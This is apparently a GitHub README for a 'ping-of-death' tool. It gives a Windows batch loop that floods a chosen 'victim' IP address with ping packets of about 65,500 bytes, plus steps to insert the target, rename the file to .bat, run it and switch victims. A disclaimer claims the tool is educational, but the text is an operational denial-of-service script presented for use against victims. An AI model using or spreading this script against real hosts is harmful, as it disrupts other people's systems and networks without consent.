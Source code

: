 # ping-of-death

## Warning I am not responsible for any damage done or accountable for the usage of this software! This is only for educational purposes.

### Download
 - click the .zip file and download

### How to use: 

1.) open the dos.txt file it will read:
:loop
ping <IP Address> -l 65500 -w 1 -n 1
goto :loop

2.) rename <IP Address> with the ip address of the victim then save and exit the file

3.) rename the dos.txt file to dos.bat

4.) run the file

* to change victims simply rename the file to dos.txt and change the previous ip address to the next one and rename the file to: dos.bat
